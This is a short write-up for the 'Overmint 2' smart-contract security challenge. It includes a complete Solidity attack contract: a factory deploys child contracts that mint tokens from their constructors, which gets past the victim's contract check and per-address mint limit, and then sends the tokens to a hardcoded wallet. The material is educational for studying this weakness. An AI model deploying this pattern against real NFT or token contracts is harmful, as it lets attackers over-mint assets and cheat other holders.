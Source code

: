 # Overmint 2

Please review `Overmint` before continuing for context.

The solution here is much the same as the previous challenge, however small changes have been made. The main vulnerability remains the same (`Address.sol` from OZ).

### Some changegs:
- The victim contract now tracks tokens using the `balanceOf` functionality
- The `success` params require the sender to hold all tokens rather then accepting an address
- There are some slight spelling changes to victim contract name

## The attack contract:

You can see:
- The victim address is now passed in as a constructor arg
- The `Child` contract no longer transfer the token back to the `Factory` but to a specified wallet

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.16;

import "./AnatemToken2.sol";

contract AttackFactory {
    constructor(address _victim) {
        VICTIM_ADDR = _victim;
    }

    address public VICTIM_ADDR;

    function createAttackChildrenContracts() external {
        Child child2 = new Child(VICTIM_ADDR, 7);
        Child child3 = new Child(VICTIM_ADDR, 8);
        Child child4 = new Child(VICTIM_ADDR, 9);
        Child child5 = new Child(VICTIM_ADDR, 10);
        Child child1 = new Child(VICTIM_ADDR, 11);
    }
}

contract Child {
    constructor(address _victim, uint256 _tokenId) {

        address OWNER = 0x5f1bC8fD0059aa02a270d2e31375190cb4e156aF;
    
        AnteamToken anteamToken = AnteamToken(_victim);

        anteamToken.mint();
        anteamToken.transferFrom(address(this), OWNER, _tokenId);
    }
}
```

